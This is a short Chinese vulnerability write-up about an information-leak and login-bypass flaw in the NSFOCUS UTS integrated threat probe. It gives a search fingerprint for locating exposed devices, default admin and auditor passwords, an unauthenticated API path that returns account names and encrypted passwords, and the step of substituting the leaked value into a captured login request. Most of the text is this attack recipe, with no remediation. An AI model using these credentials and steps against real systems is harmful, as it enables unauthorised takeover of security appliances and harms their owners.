

# 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

<a-checkbox checked>绿盟 UTS综合威胁探针 </a-checkbox></br>	

## 网络测绘

<a-checkbox checked>app="NSFOCUS-UTS综合威胁探针"</a-checkbox></br>

## 漏洞复现

默认口令

<a-checkbox checked>admin/Nsfocus@123</a-checkbox></br>

<a-checkbox checked>auditor/auditor</a-checkbox></br>

登陆页面



验证POC

```php
/webapi/v1/system/accountmanage/account
```


这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统


